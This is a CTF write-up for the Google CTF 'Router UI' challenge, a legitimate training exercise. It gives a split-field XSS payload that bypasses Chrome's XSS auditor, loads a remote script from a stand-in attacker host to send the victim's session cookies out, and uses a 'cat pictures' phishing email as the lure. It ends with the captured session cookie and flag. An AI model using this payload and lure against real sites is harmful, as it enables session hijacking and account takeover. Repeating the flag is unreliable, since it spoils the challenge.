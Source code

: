 ```yaml
---
layout: post
title: 'Google CTF: Beginners Quest - Router UI'
page-id: post
tags: [write-up]
---
```


# Google CTF: Beginners Quest - Router UI

> Using the domain found on the hardened aluminum key, you make your way on to the OffHub router. A revolutionary device that simplifies your life. You're at the UI page, but attempting to brute force the password failed miserably. If we could find an XSS on the page then we could use it to steal the root user session token. In case you find something, try to send an email to wintermuted@googlegroups.com. If you claim your link includes cat pictures, I'm sure Wintermuted will click it. I hope Chrome's XSS filter will not block the exploit though.
> 
> https://router-ui.web.ctfcompetition.com/

In this challenge, we are shown a login form and need to find a way to steal the session token from the root user. We're given a hint about finding XSS somewhere on the page, but Chrome's XSS filter makes this a bit more difficult. Once we find a way to bypass this filter, we can send off an email to the root user containing a link and hope that they'll click it. From the challenge description, if we say the link has cat pictures, there's a good chance they'll do exactly that.

You can see the XSS filter in action by inputting something like `<script>alert('XSS');</script>` in one of the fields and submitting it. You should get an `ERR_BLOCKED_BY_XSS_AUDITOR` error. If we put some legit values, let's say `user` and `password`, into the login form and submit it, we're shown a page that states

`Wrong credentials: user//password`

Something of note here is that `//` is being used to separate the username and password. We can use this to our advantage to bypass Chrome's XSS filter. In particular, we'll use the `//` to help us craft a URL. To show what I mean, go back to the login form and set the username to `http:` and the password to `example.com` and then submit it.

`Wrong credentials: http://example.com`

BOOM! We can craft ourselves a URL. This by itself isn't all that useful. But we can take advantage of this by inputting a script into this field that loads a JS file, hosted by us, that will send the user's cookie to us. The script we'll end up using looks something like this:

`<script src="https://yourwebsite.com/cookie.js"></script>`

But of course, we can't just pass that into the form, we'll trigger the XSS filter. But by splitting it between the username and password fields as we did earlier, we can execute our own scripts. Here are the values we'll be using:

`username = <script src="https:`

`password = yourwebsite.com/cookie.js"></script>`

We have a way to attack the root user, now we just need them to submit a form with these values in it. To accomplish this, we'll first need to set up a website that handles this. Then we can email the link to them in hopes they'll click it.

NOTE: The website must have an SSL certificate. An easy way to do this is to use [Heroku](https://heroku.com/) to host the website.

We only need two files for this, a `js` and `html` file. The Javascript file's only job is to redirect the user to a URL and pass along their cookies. The HTML file will contain an exact copy of the login form located on the challenges page. Our form will submit the values of the `username` and `password` fields, set to our payload above, to the login form on `https://router-ui.web.ctfcompetition.com/login`. When submitted, our script will be loaded, thus sending the user's cookies to us.

<script src="https://gist.github.com/c3bd628bb16ea4cac13fe2ec741bb109.js"></script>

<script src="https://gist.github.com/b09e02aba41c19f629cef68162f90fa4.js"></script>

Our Javascript file is sending the user to a nonexistent page, which is fine since the request will be logged, allowing us to view the cookies being passed with it.

With the website set up, all we have to do now is send an email to `wintermuted@googlegroups.com` containing a link to `https://yourwebsite.com`. To play along with the challenge description, we should also set the subject line of the email to `Cat Pictures`.

Once the email is sent off, you should receive a confirmation within a few seconds. Watch your server logs and you'll see a request was made that includes some cookies. It'll look something like

`GET /cookie.html?flag=Try%20the%20session%20cookie;%20session=Avaev8thDieM6Quauoh2TuDeaez9Weja HTTP/1.1`

Looks as if the root user had two cookies: 

`flag=Try the session cookie`

`session=Avaev8thDieM6Quauoh2TuDeaez9Weja`

If we enter these cookies into our browser and navigate to `https://router-ui.web.ctfcompetition.com/`, we'll be greeted with the dashboard. On this page, the first thing that jumps out at me are the two credential fields. If we look at either one of those values, we can see it contains the flag: `CTF{Kao4pheitot7Ahmu}`.
